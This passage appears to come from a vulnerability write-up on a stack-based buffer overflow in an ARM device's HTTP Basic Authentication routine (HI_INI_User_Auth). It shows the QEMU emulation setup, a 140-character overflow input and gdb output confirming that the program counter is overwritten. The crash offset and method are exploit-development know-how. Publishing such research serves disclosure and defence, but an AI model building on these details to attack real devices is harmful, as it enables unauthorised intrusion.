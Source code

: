 

### Going further with the stack overflow vulnerability

We wanted to get a better understanding of the vulnerability.

It was probably possible to exploit the stack based buffer overflow in order to get a remote reverse shell, but surely not using a blind method as describe here.

To setup our environment, we used QEMU and a n ARMraspberry image with `gdb` to debug the program.

We also had to manually patch the binary program for more than twenty ARM instructions, using hexedit, in order to bypass some hardware checks and exceptions happening because we were running in a virtualized environment.

In this setup, we sent 140 `A` chars and the `BCDE` string as an HTTP Basic Authentication. As expected, the `$pc` stack pointer (`$eip` equivalent in ARM-x86) was successfully overwritten.

As a result, the program crashed with the following message in `gdb`:

```
0x45444342 in ?? ()

```

Looking at the backtrace, we noticed the function where the crash occurs:

```
gdb$ backtrace
#0  0x45444342 in ?? ()
#1  0x00042ac0 in HI_INI_User_Auth ()
#2  0x00000000 in ?? ()
```

The inspection of the `$pc` stack pointer confirmed the overwriting:

```
gdb$ frame 0
#0  0x45444342 in ?? ()
gdb$ i r
r0             0xffffffff	0xffffffff
r1             0xb4c12b79	0xb4c12b79
r2             0x67	0x67
r3             0x0	0x0
r4             0x41414141	0x41414141
r5             0x41414141	0x41414141
r6             0x41414141	0x41414141
r7             0x1a6634	0x1a6634
r8             0x1a6664	0x1a6664
r9             0x1a6630	0x1a6630
r10            0x1a4620	0x1a4620
r11            0x1a45b0	0x1a45b0
r12            0xe0478	0xe0478
sp             0xb4c12c60	0xb4c12c60
lr             0x42ac0	0x42ac0
pc             0x45444342	0x45444342 <<<<<<<<<<<<<<<<<<<<<<<<<
cpsr           0x60000010	0x60000010

```
